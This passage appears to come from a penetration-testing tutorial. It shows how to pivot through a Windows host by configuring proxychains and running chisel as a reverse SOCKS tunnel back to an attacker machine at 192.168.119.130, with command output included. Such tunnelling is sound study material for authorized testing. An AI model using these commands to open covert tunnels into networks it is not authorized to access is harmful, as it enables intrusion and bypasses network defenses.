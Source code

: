 Alternatively, you can build it from the [source code](https://github.com/haad/proxychains) from github.

Let's configure the proxychains:

```shell
sudo vim /etc/proxychains.conf
```

Leave the following SOCKS5 configuration:

```shell
❯ tail -n 2 /etc/proxychains.conf
socks5 	127.0.0.1 1080
```

Now on the attacker (Linux) host:

```shell
❯ ./chisel_1.7.7_linux_amd64 server -p 9292 --reverse
2022/03/07 14:12:03 server: Reverse tunnelling enabled
2022/03/07 14:12:03 server: Fingerprint oswwvQ0i0qhUScfY0AJZQPzhG3TVLMaF5mFonQ/6IJQ=
2022/03/07 14:12:03 server: Listening on http://0.0.0.0:9292
```

Alternatively, we could the following flag:

```shell
./chisel_1.7.7_linux_amd64 server -p 9292 --socks5 --reverse
```

Then in Windows connect to our SOCKS5 proxy:

```powershell
PS C:\Users\user> .\chisel.exe client 192.168.119.130:9292 R:socks
2022/03/07 15:13:36 client: Connecting to ws://192.168.119.130:9292
2022/03/07 15:13:36 client: Connected (Latency 1.4047ms)
```

Alternatively, if we want to specify a SOCKS5 port we can do the following:

```powershell
.\chisel.exe client 192.168.119.130:9292 R:5000:socks
```

In our chisel output from the attacker host, we can see that a session was created on port 1080:

```shell
2022/03/07 14:13:36 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

We can use `ss` to dup our socket statistics:

```shell
❯ ss -tnlp
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         4096             127.0.0.1:1080             0.0.0.0:*        users:(("chisel_1.7.7_li",pid=125026,fd=8))
LISTEN    0         4096                     *:9292                   *:*        users:(("chisel_1.7.7_li",pid=125026,fd=6))
```
